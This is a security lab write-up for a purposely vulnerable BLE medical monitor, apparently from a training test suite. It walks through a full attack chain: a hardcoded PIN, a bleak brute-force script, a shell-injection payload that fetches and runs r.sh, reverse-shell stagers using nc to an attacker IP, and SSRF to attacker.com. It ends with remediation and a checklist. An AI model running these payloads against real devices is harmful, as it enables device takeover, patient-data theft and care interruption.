








	
# BLE-07 — Factory Provisioning Channel: Hidden Administrative Backdoor (M3)

> **Status:** ✅ DONE
> **Source:** `CareOtter_IoT.md` §3.4 Factory Provisioning Channel
> **OWASP Mobile:** M3 — Insecure Authentication/Authorization
> **OWASP IoT:** I3 (primary), I9, I6, I2
> **Severity:** Critical

---

## Why It Matters

CareOtter exposes a **secondary GATT service (`0xFF10`)** that is intentionally omitted from the BLE advertising packet. The manufacturer intended this channel for clinical technicians to perform initial bedside-monitor configuration (WiFi SSID/PSK, Cloud API endpoint) before the device has network connectivity. Because it is not listed in `Advertisement.ServiceUUIDs`, the manufacturer assumed it would remain invisible to patients and attackers — a classic *security through obscurity* design.

However, BLE requires every connected client to perform full GATT service discovery. Any standard BLE scanner (nRF Connect, `bluetoothctl`, `gatttool`, or `bleak`) enumerates **all** services after connection, making `0xFF10` trivially discoverable.

The service exposes two characteristics:

| Characteristic | UUID | Flags | Function |
|---|---|---|---|
| Provisioning Config | `0xFF11` | read, write, notify | JSON command interface |
| Provisioning Auth | `0xFF12` | read, write | 4-digit factory PIN |

**Manufacturer claim:** the channel auto-disables 30 minutes after first power-on.
**Reality (`ble_server.py`):** `initialized_at` is recorded but never compared against `time.time()`. The channel remains active indefinitely (**P8**).

---

## OWASP Classification

| Category | Role |
|---|---|
| **I3 — Insecure Ecosystem Interfaces** | Primary — hidden administrative interface reachable over BLE without pairing |
| **I9 — Insecure Default Settings** | Secondary — hardcoded PIN, no rate limiting, no expiration |
| **I6 — Insufficient Privacy Protection** | Tertiary — plaintext PSK disclosure via `ReadValue` |
| **I2 — Insecure Network Services** | Contributing — shell injection and SSRF via provisioning commands |

---

## Complete Attack Chain

The walk-through uses **`bluetoothctl`**, the standard BlueZ interactive client available on any modern Linux distribution.

> **Precondition — set the attacker's BlueZ host to LE-only mode.**
>
> By default `bluetoothd` runs in `dual` mode (BR/EDR + LE). After a successful LE GATT
> connection, `bluetoothctl connect` will additionally attempt to open a classic
> BR/EDR profile (A2DP, AVRCP, HFP, …). Because `CareOtter_HR` is LE-only and exposes
> no classic profile, BlueZ raises
>
> ```text
> Failed to connect: org.bluez.Error.BREDR.ProfileUnavailable
>     No more profiles to connect to
> ```
>
> and tears the LE link down immediately after `ServicesResolved: yes`, before
> the operator can run `menu gatt` / `list-attributes`. This is a well-known
> BlueZ behaviour with LE-only peripherals — **not** a CareOtter vulnerability.
>
> Switch the host adapter to LE-only **once** before starting the chain:
>
> ```bash
> sudo sed -i 's/^#ControllerMode = dual$/ControllerMode = le/' /etc/bluetooth/main.conf
> sudo systemctl restart bluetooth
> ```
>
> After the restart, `bluetoothctl show` should list only `Generic Access`,
> `Generic Attribute` and `Device Information` UUIDs — every BR/EDR UUID
> (`A/V Remote Control`, `Audio Sink`, `Handsfree Audio Gateway`, …) must be
> gone. Revert with `ControllerMode = dual` if you later need classic Bluetooth
> on the same host (audio headsets, etc.).
>
> Alternatives that bypass this entirely without touching `main.conf`: use
> [`bleak`](https://github.com/hbldh/bleak) (LE-pure Python) or `gatttool -t random`
> (deprecated but still LE-only).

### Step 1 — Connect and enumerate GATT services (P1)

> **Prerequisite — lower the BlueZ discovery filter before `scan on`.**
>
> BlueZ default `DiscoveryFilter` rejects adv reports below ≈−80 dBm and collapses
> duplicate packets. The Pi BCM4345C0 with PCB antenna typically arrives at −85 dBm
> in the lab, so `bluetoothctl` shows nothing even when `sudo btmon` already sees
> `Name (complete): CareOtter_HR` at the HCI layer. Set a permissive filter once
> per session before scanning:
>
> ```text
> bluetoothctl
> [bluetooth]# menu scan
> [bluetooth]# transport le
> [bluetooth]# rssi -100
> [bluetooth]# duplicate-data on
> [bluetooth]# pattern CareOtter
> [bluetooth]# back
> [bluetooth]# scan on
> ```
>
> After `[NEW] Device 43:45:C0:00:1F:AC CareOtter_HR` appears, `scan off` and
> continue with `connect`.

```bash
$ bluetoothctl
[bluetooth]# connect 43:45:C0:00:1F:AC
Attempting to connect to 43:45:C0:00:1F:AC
Connection successful
[CareOtter_HR]# menu gatt
Menu gatt:
...
[CareOtter_HR]# list-attributes
```



`list-attributes` reveals a **Secondary Service** that was never advertised:



The hidden provisioning service (`0xFF10`) and its two characteristics (`0xFF11`, `0xFF12`) are fully visible to any connected client.

---

### Step 2 — Probe the gated config + read the auth status (P3)

Select the Config characteristic (`0xFF11` / `char0044`) and read its current value:



```bash
[CareOtter_HR]# select-attribute /org/bluez/hci0/dev_43_45_C0_00_1F_AC/service0043/char0044
[CareOtter_HR:/service0043/char0044]# read
Attempting to read /org/bluez/hci0/dev_43_45_C0_00_1F_AC/service0043/char0044
[CHG] Attribute ... Value:
  7b 22 65 72 72 6f 72 22 3a 20 22 50 49 4e 5f 52  {"error": "PIN_R
  45 51 55 49 52 45 44 22 7d                       EQUIRED"}
```

Decoded:

```json
{"error": "PIN_REQUIRED"}
```

`ProvisioningConfigChrc.ReadValue` is gated on `_provisioning_state["authenticated"]` — until the PIN has been verified in Step 3, the read returns this stub instead of the provisioning state. The server simultaneously logs `[BLE] Provisioning read rejected — PIN not verified`. The plaintext `wifi_ssid` / `wifi_psk` / `cloud_url` (P5, CWE-312) is *not* leaked pre-PIN; it surfaces in Step 4b below once the gate is open.

Now read the Auth characteristic (`0xFF12` / `char0047`) — this one is **not** gated, by design, so an attacker can observe the brute-force counter:



```bash
[CareOtter_HR:/service0043/char0044]# select-attribute /org/bluez/hci0/dev_43_45_C0_00_1F_AC/service0043/char0047
[CareOtter_HR:/service0043/char0047]# read
Attempting to read /org/bluez/hci0/dev_43_45_C0_00_1F_AC/service0043/char0047
[CHG] Attribute ... Value:
  7b 22 61 74 74 65 6d 70 74 73 5f 72 65 6d 61 69  {"attempts_remai
  6e 69 6e 67 22 3a 20 33 2c 20 22 6c 6f 63 6b 65  ning": 3, "locke
  64 22 3a 20 66 61 6c 73 65 7d                    d": false}
```

Decoded:

```json
{"attempts_remaining":3, "locked":false}
```

The device exposes a **guess counter with no permanent lockout mechanism** (`locked: false`). An attacker can brute-force the 4-digit PIN indefinitely — the counter just rolls over.

---

### Step 3 — Bypass authentication (P2, P3) — MANDATORY before any 0xFF11 write

No BLE pairing or bonding is required. The factory PIN is hardcoded to `6767` across all devices (4 ASCII digits → `0x36 0x37 0x36 0x37`). Write it to `0xFF12`:



```bash
[CareOtter_HR:/service0043/char0047]# write "0x36 0x37 0x36 0x37"
```

After the write, re-`read` the same characteristic to confirm acceptance — on a correct PIN the server resets `pin_attempts=0` internally, so the displayed `attempts_remaining` returns to `3`:

```bash
[CareOtter_HR:/service0043/char0047]# read
# {"attempts_remaining": 3, "locked": false}
```

#### Brute force — when the PIN has not been pre-extracted from firmware

If the attacker has no firmware access, the 10 000-PIN space is fully sweepable from BLE range because `ProvisioningAuthChrc.WriteValue` accepts every attempt regardless of the counter — `locked` is a hardcoded literal `False` and the displayed `attempts_remaining` is the cyclic expression `max(0, 3 - (pin_attempts % 3))`, which hides the real attempt count from the client (CWE-358).

The following `bleak` script iterates `0000..9999` writing each candidate to `0xFF12`. Success detection is delegated to an out-of-band SSH watcher on the device log because the BLE-side `Value`/`ReadValue` carry **no observable indicator** that a client can distinguish from the modulo collision at every third failure:

```python
#!/usr/bin/env python3
"""CareOtter PIN brute force via bleak.

Iterates 0000..9999, writing each candidate to the Provisioning Auth
characteristic (0xFF12). Detection: an external watcher tails
/var/log/ble_server.log on the device over SSH and writes the matched line
to /tmp/careotter_pin_found; this script polls that sentinel file and
stops as soon as it is non-empty.

Empirical run on the lab: PIN 6767 reached in attempt #6768 in ~10 min.
"""
import asyncio
import os
import sys
import time

from bleak import BleakClient

TARGET    = "43:45:C0:00:1F:AC"
AUTH_UUID = "0000ff12-0000-1000-8000-00805f9b34fb"
SIGNAL    = "/tmp/careotter_pin_found"


async def brute():
    async with BleakClient(TARGET, timeout=20.0) as c:
        # Resolve the auth char by exact object reference rather than UUID
        # to avoid "Multiple Characteristics with this UUID" when stale
        # ble_server.py instances are still registered in BlueZ.
        auth_chr = None
        for svc in c.services:
            for ch in svc.characteristics:
                if ch.uuid == AUTH_UUID:
                    auth_chr = ch
                    break
            if auth_chr:
                break
        if auth_chr is None:
            print("[-] auth char not found"); return
        print(f"[+] Connected. Auth char: handle={auth_chr.handle}")

        start = time.perf_counter()
        for n in range(10_000):
            pin = f"{n:04d}"
            try:
                await c.write_gatt_char(auth_chr, pin.encode(), response=True)
            except Exception as e:
                print(f"[-] write failed at {pin}: {e}")
                await asyncio.sleep(0.1)
                continue

            if os.path.exists(SIGNAL) and os.path.getsize(SIGNAL) > 0:
                with open(SIGNAL) as f:
                    print(f"[+] Signal: {f.read().strip()}")
                print(f"[+] Last PIN written: {pin}")
                elapsed = time.perf_counter() - start
                print(f"[+] {n+1} attempts in {elapsed:.1f}s "
                      f"({(n+1)/elapsed:.1f}/s)")
                return

            if n % 200 == 0 and n > 0:
                elapsed = time.perf_counter() - start
                rate = n / elapsed
                eta = (10000 - n) / rate
                print(f"[*] {pin}  rate={rate:.1f}/s  eta={eta:.0f}s")

        print("[-] Exhausted 10 000 PINs without success")


if __name__ == "__main__":
    try:
        asyncio.run(brute())
    except KeyboardInterrupt:
        sys.exit(1)
```

Run the script together with the SSH watcher that creates the sentinel:

```bash
# 1) Watcher: tails the device log, fills the sentinel on AUTH success
rm -f /tmp/careotter_pin_found
( ssh root@192.168.2.1 \
    "tail -n0 -F /var/log/ble_server.log | grep --line-buffered -m1 'AUTH success'" \
    > /tmp/careotter_pin_found ) &

# 2) Brute force in the foreground
python3 careotter_pin_brute.py
```

**Empirical timeline observed on the lab** (Cypress BCM43430 on the Pi + bleak + BlueZ 5.x on Kali):

```
line   25:  [BLE] Provisioning AUTH failed (PIN=0000, attempts=1)      ← start
line 6850:  [BLE] Provisioning AUTH failed (PIN=6764, attempts=6765)
line 6851:  [BLE] Provisioning AUTH failed (PIN=6765, attempts=6766)
line 6852:  [BLE] Provisioning AUTH failed (PIN=6766, attempts=6767)   ← last failure
line 6853:  [BLE] Provisioning AUTH success                            ← PIN=6767 accepted
line 6854:  [BLE] Provisioning AUTH failed (PIN=6768, attempts=1)      ← server reset confirmed
```

**6 767 failed writes** were accepted by `WriteValue` before the correct PIN, **zero** were rejected by the (decorative) attempts counter, and the counter reset to `1` on the very next failed write — proving the only state mutation the server performs on success is `pin_attempts = 0`. Wall-clock cost: ~10 min on this rig (~11 writes/s). On a faster radio + adapter combination this collapses to ~100 s worst case for the entire 10 000 space.

---

`ProvisioningConfigChrc.WriteValue` now enforces this gate strictly: it checks `_provisioning_state["authenticated"]` at entry and silently drops any command (logging `"[BLE] Provisioning command rejected — PIN not verified"`) until a correct PIN write has flipped that flag to `True`. **Steps 4, 5 and 6 below all depend on Step 3 having succeeded first.**

The PIN gate is **not** what makes this exploitable — the underlying weaknesses are:

| Weakness | Consequence |
|---|---|
| **CWE-798** — PIN hardcoded factory-wide (`PROV_PIN_FACTORY = "6767"`, identical on every device) | `strings /opt/medical-sensor/ble_server.py \| grep PROV_PIN_FACTORY` recovers it; one write bypasses the gate. |
| **CWE-307** — `ProvisioningAuthChrc` counts failed attempts but **never permanently locks**; the counter only modulates the JSON `attempts_remaining` field and resets on success | If the PIN were not already public, the entire 4-digit space (10 000 combinations × ~10 ms BLE latency ≈ 100 s worst-case) is fully brute-forceable from BLE range with no observable defensive response. |
| **CWE-613** — `_provisioning_state["authenticated"]` never auto-clears (P8 unchanged) | Once true, it stays true until the BLE service restarts, so a single successful PIN write keeps the gate open indefinitely for the rest of the chain. |

After this step, the attacker holds `authenticated=True` and every subsequent `0xFF11` write executes.

---

### Step 4 — Remote Code Execution via shell injection (P4) — *requires Step 3*

The `wifi_set` command in `ble_server.py` interpolates SSID and PSK directly into an `os.system()` call without escaping shell metacharacters:

```python
os.system(f"uci set wireless.@wifi-iface[0].ssid='{ssid}' && ...")
```

Prepare the malicious payload:



```bash
$ PAYLOAD='{"cmd":"wifi_set","ssid":"'\''; curl http://attacker/r.sh | sh #","psk":"x"}'
$ HEX=$(echo -n "$PAYLOAD" | xxd -ps)
$ echo "$HEX"
7b22636d64223a22776966695f736574222c2273736964223a22...
$ echo "$HEX" | sed 's/../0x& /g; s/ $//'| tr -d '\n'
```

`r.sh` example:

```bash
#!/bin/ash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.2.2 9001 > /tmp/f
```

Write it to `0xFF11` (char0044):



```bash
[CareOtter_HR:/service0043/char0047]# select-attribute /org/bluez/hci0/dev_43_45_C0_00_1F_AC/service0043/char0044
[CareOtter_HR:/service0043/char0044]# write 0x7b 0x22 ...   # full hex string of payload
```

This executes as **root** on the bedside monitor:



```bash
uci set wireless.@wifi-iface[0].ssid=''; curl http://attacker/r.sh | sh #' && ...
```

#### Attacker-side setup — verifying remote code execution

The `r.sh` referenced in the payload is a one-line reverse-shell stager hosted on the attacker's machine. The goal is to **prove** the injection ran by getting an interactive root shell from the Pi back to the attacker — no clinical effect on the device, just a TCP callback.

**1. On the attacker's host, create `r.sh`:**

```bash
cat > /tmp/r.sh <<'EOF'
#!/bin/sh
# Reverse shell back to the attacker.
# 192.168.2.100 = attacker, 4444 = listener port. Adjust to your lab subnet.
ATTACKER_IP=192.168.2.100
ATTACKER_PORT=4444

# OpenWRT ships BusyBox `nc` which does NOT support `-e`. The portable
# trick is a named-pipe loop that wires /bin/sh's stdio to a TCP socket.
mkfifo /tmp/.f 2>/dev/null
cat /tmp/.f | /bin/sh -i 2>&1 | nc "$ATTACKER_IP" "$ATTACKER_PORT" > /tmp/.f
rm -f /tmp/.f

# Side-evidence: also drop a marker file so you can confirm execution even
# if the reverse shell is blocked by the firewall hook (75-firewall.sh).
echo "pwned by $(id) at $(date)" > /tmp/careotter_rce_marker
EOF
chmod +x /tmp/r.sh
```

**2. Serve `r.sh` on a plain HTTP server reachable from the Pi:**

```bash
cd /tmp && python3 -m http.server 80
# Serving HTTP on 0.0.0.0 port 80 ...
```

**3. Open the listener that will catch the reverse shell:**

```bash
# In a separate terminal on the attacker host
nc -lvnp 4444
# listening on [any] 4444 ...
```

**4. Trigger the BLE write from Step 4 above** — the SSID field interpolates `'; curl http://192.168.2.100/r.sh | sh #` into `os.system()`, the Pi fetches and executes `r.sh` as **root**, and:

- The Python HTTP server logs `192.168.2.1 - - [..] "GET /r.sh HTTP/1.1" 200 …` → confirms the Pi reached out and downloaded the stager.
- The `nc -lvnp 4444` window prints `connect to [192.168.2.100] from … 192.168.2.1` and drops you into a `#` prompt running as root on the bedside monitor.

**5. Verify on the reverse shell:**

```sh
# On the catched shell
id
# uid=0(root) gid=0(root) groups=0(root)

uname -a
# Linux OpenWrt 6.6.x ... aarch64 GNU/Linux

cat /tmp/careotter_rce_marker
# pwned by uid=0(root) gid=0(root) groups=0(root) at Mon May 13 ...

# Reach the careservice admin port from inside the device — no auth needed now
nc -w1 127.0.0.1 9999 < /dev/null
```

> **If the reverse shell fails to connect but `/tmp/careotter_rce_marker` exists on the Pi**, the injection itself succeeded — the failure is purely network reachability (typically the `75-firewall.sh` hook on the Pi or NAT between the two hosts). In that case, validate RCE by reading the marker out-of-band: `ssh root@192.168.2.1 'cat /tmp/careotter_rce_marker'`. The marker is the minimal, firewall-independent proof that arbitrary code ran as root via the BLE provisioning channel.

---

### Step 4b — Re-read 0xFF11 post-PIN: plaintext PSK leak (P5) — *requires Step 3*

Repeating the `read` from Step 2 now returns the **real** provisioning state instead of the `PIN_REQUIRED` stub. The PSK still travels in cleartext (CWE-312 — Plaintext Storage of Sensitive Information):

```bash
[CareOtter_HR:/service0043/char0044]# read
[CHG] Attribute ... Value:
  7b 22 77 69 66 69 5f 73 73 69 64 22 3a 20 22 22  {"wifi_ssid": ""
  2c 20 22 77 69 66 69 5f 70 73 6b 22 3a 20 22 22  , "wifi_psk": ""
  2c 20 22 63 6c 6f 75 64 5f 75 72 6c 22 3a 20 22  , "cloud_url": "
  68 74 74 70 3a 2f 2f 31 39 32 2e 31 36 38 2e 32  http://192.168.2
  2e 32 3a 35 30 30 32 22 2c 20 22 75 70 74 69 6d  .2:5002", "uptim
  65 5f 73 65 63 22 3a 20 33 33 30 37 2c 20 22 70  e_sec": 3307, "p
  72 6f 76 69 73 69 6f 6e 5f 65 78 70 69 72 65 64  rovision_expired
  22 3a 20 66 61 6c 73 65 7d                       ": false}
```

Decoded:

```json
{"wifi_ssid":"", "wifi_psk":"",
 "cloud_url":"not_configured",
 "uptime_sec":3307, "provision_expired":false}
```

On a fresh, unprovisioned device the Cloud API URL reads **`not_configured`** — the monitor has **no backend yet** and is waiting for a technician to inject one. Instead of merely eavesdropping on an existing cloud session, the attacker can **become the cloud** by writing their own URL via `cloud_set` (Step 5) — the Android app will then send patient vitals and administrative commands to the attacker's server. On a previously provisioned device the read additionally leaks the hospital `wifi_psk` in cleartext (BLE-10).

---

### Step 5 — SSRF / Data exfiltration redirection (P6) — *requires Step 3*

The `cloud_set` command accepts any URL without validation. An attacker can redirect all future patient vitals and device telemetry to an attacker-controlled server:

```bash
$ PAYLOAD='{"cmd":"cloud_set","url":"http://attacker.com:8080"}'
$ HEX=$(echo -n "$PAYLOAD" | xxd -ps)
[CareOtter_HR:/service0043/char0044]# write 0x7b 0x22 ...   # hex of cloud_set payload
```

The Cloud API bridge (`app.py`) forwards IGP commands to this new URL, giving the attacker a live feed of patient data and administrative commands.

---

### Step 6 — Factory reset gated only by the factory PIN (P7) — *requires Step 3*

Once the PIN gate has been passed in Step 3, a single write to `0xFF11` with `factory_reset` wipes the device configuration and reboots the WiFi stack, causing a clinical service interruption:

```bash
[CareOtter_HR:/service0043/char0044]# write 0x7b 0x22 0x63 0x6d 0x64 0x22 0x3a 0x22 0x66 0x61 0x63 0x74 0x6f 0x72 0x79 0x5f 0x72 0x65 0x73 0x65 0x74 0x22 0x7d
```

(Or generate with `echo -n '{"cmd":"factory_reset"}' | xxd -ps` → `7b22636d64223a22666163746f72795f7265736574227d`)

What makes this a P7-class flaw — even with the PIN gate active — is the **complete absence of a second confirmation factor on a destructive operation**: no physical button press, no admin re-authentication over the Cloud API, no time-delayed confirmation prompt. The **same** low-entropy factory PIN that gates `wifi_set` and `cloud_set` is also sufficient to permanently wipe patient configuration. Real medical devices typically require an additional out-of-band confirmation (hardware tamper switch, dual-operator approval, or a TLS-authenticated admin command from the hospital backend) for any reset that takes the monitor offline; CareOtter requires none.

Negative control — verifies the gate is active and Step 3 is mandatory:

```bash
# Reconnect from a fresh BLE session (or after `ble-server restart`) so the
# `authenticated` flag is False, then write factory_reset WITHOUT writing the PIN:
[CareOtter_HR:/service0043/char0044]# write 0x7b 0x22 0x63 0x6d 0x64 0x22 0x3a 0x22 0x66 0x61 0x63 0x74 0x6f 0x72 0x79 0x5f 0x72 0x65 0x73 0x65 0x74 0x22 0x7d

# On the Pi:
logread -e BLE | tail -1
# →  "[BLE] Provisioning command rejected — PIN not verified"
# The configuration is intact; the device does NOT reboot.
```

---

## Clinical Impact

The Factory Provisioning Channel transforms a **transient proximity attack** (Bluetooth range) into **full device compromise**:

| Stage | Consequence | Patient Safety Risk |
|---|---|---|
| P5 — WiFi PSK leak / unprovisioned state | Attacker joins hospital WiFi OR discovers device has no backend yet | High — network breach OR attacker becomes the cloud |
| P6 — Cloud URL injection + signature capture | Attacker-supplied backend receives factory signature + admin creds; replays to real cloud → permanent admin takeover | Critical — complete backend compromise |
| P4 — Shell injection | Root RCE on bedside monitor | Critical — device takeover |
| P7 — Factory reset gated only by hardcoded PIN | Monitor goes offline; alerts stop; nurses lose telemetry. Trivially reached via Step 3 once the PIN is known or brute-forced | Critical — silent care interruption |

---

## Chain F — Cloud API Impersonation via Signature Interception

This chain exploits the hidden BLE Factory Provisioning Service (`0xFF10`) to redirect the device's backend to an attacker-controlled server, capture the hardcoded factory signature, and replay it to the real Cloud API for permanent admin takeover. It requires only Bluetooth range and completes in under three minutes.

- **Prerequisites:** Bluetooth range (~10–30 m). No pairing, no network access, no IGP token.
- **Execution time:** < 3 minutes with a smartphone.
- **Impact:** Complete backend takeover (admin account) + root RCE + patient data exfiltration.

---

## How It Should Be

Remediation requires four independent controls:

1. **Remove the hidden service from production firmware.** The factory provisioning channel must be compiled out of the production image and re-introduced only via a physical jumper / tamper switch detected at boot. Hidden services discoverable via standard GATT enumeration are not a security boundary.
2. **Per-device random PIN provisioned at manufacturing**, written to a sticker inside the chassis and bound to the device serial number. Eliminates CWE-798 (no shared factory secret) and turns brute-force into an offline attack against a single unit.
3. **Permanent lockout after N failed attempts** (typical: 5 attempts → cool-down escalating to permanent lock that requires factory service). Eliminates CWE-307. The current cyclic counter (`max(0, 3 - (pin_attempts % 3))`) actively misleads defenders and must be replaced with a monotonic, persisted counter.
4. **Time-bound `authenticated` session with explicit revoke on disconnect.** Bind the `authenticated=True` flag to the BLE connection handle and clear it on any disconnect, plus a hard ceiling (e.g. 5 min) that auto-clears even on persistent connections. Eliminates CWE-613 / P8.

Additionally, every JSON command on `0xFF11` should be parsed against a strict allow-list and parameter shapes (`wifi_set`, `cloud_set`, `factory_reset`, …); shell-style construction (`os.system(f"… {ssid} …")`) must be replaced by direct UCI Python bindings or `subprocess.run([...], shell=False)` with argv arrays.

---

## Controls to Implement

| Layer | Measure | Objective |
|---|---|---|
| BLE | Remove `0xFF10` from production builds; gate behind hardware tamper switch | Eliminate the hidden interface entirely on shipped devices |
| BLE | LE Secure Connections + bonding for any retained provisioning channel | Ensure only paired, authenticated technicians can connect |
| Auth | Per-device random factory PIN bound to serial number | Eliminate fleet-wide credential reuse (CWE-798) |
| Auth | Monotonic persisted attempt counter + permanent lockout | Stop brute force (CWE-307) |
| Session | Connection-bound `authenticated` flag with hard timeout | Stop indefinite session reuse (CWE-613, P8) |
| Firmware | Allow-listed JSON commands + argv-style subprocess calls | Eliminate shell injection (CWE-78) |
| Firmware | URL allow-list for `cloud_set` (TLS-only, signed manifest) | Eliminate SSRF / cloud impersonation (CWE-918) |
| Privacy | Encrypt PSK at rest; never expose via `ReadValue` | Stop plaintext credential disclosure (CWE-312) |
| Audit | Immutable write log with client BD_ADDR and timestamp | Enable post-incident forensic tracing |

---

## Verification Checklist

- [ ] `bluetoothctl` with permissive `DiscoveryFilter` finds `CareOtter_HR` at `43:45:C0:00:1F:AC`
- [ ] After `connect`, `list-attributes` exposes Secondary Service `0xFF10` with characteristics `0xFF11` and `0xFF12`
- [ ] Pre-PIN read of `0xFF11` returns `{"error": "PIN_REQUIRED"}`
- [ ] Read of `0xFF12` returns `{"attempts_remaining": 3, "locked": false}` regardless of prior failed attempts
- [ ] Write `0x36 0x37 0x36 0x37` to `0xFF12` flips `_provisioning_state["authenticated"]` to `True` (Pi log: `Provisioning AUTH success`)
- [ ] `careotter_pin_brute.py` exhausts ≤ 10 000 attempts and recovers PIN `6767` without ever being locked out
- [ ] Post-PIN read of `0xFF11` leaks `wifi_psk` in cleartext (or `cloud_url=not_configured` on a fresh device)
- [ ] `wifi_set` payload with shell metacharacters in SSID drops `/tmp/careotter_rce_marker` on the Pi as root
- [ ] `cloud_set` accepts `http://attacker.com:8080` without URL validation
- [ ] `factory_reset` write reboots the device after a single PIN; the same write pre-PIN logs `Provisioning command rejected`
- [ ] `_provisioning_state["authenticated"]` never auto-clears; `initialized_at + 30 min` is recorded but never enforced

---

## References

- `docs/CareOtter/IoT/CareOtter_IoT.md` §3.4 Factory Provisioning Channel
- `docs/CareOtter/IoT/CareOtter_IoT.md` §Chain F — Cloud API Impersonation via Signature Interception
- `docs/CareOtter/CareOtter_Test_Suite.md` §BLE-08
- `docs/CareOtter/CareOtter.md` §Factory Provisioning Channel (BLE)
- `labs/careotter/files/opt/medical-sensor/ble_server.py` — `ProvisioningConfigChrc`, `ProvisioningAuthChrc`, `PROV_PIN_FACTORY`
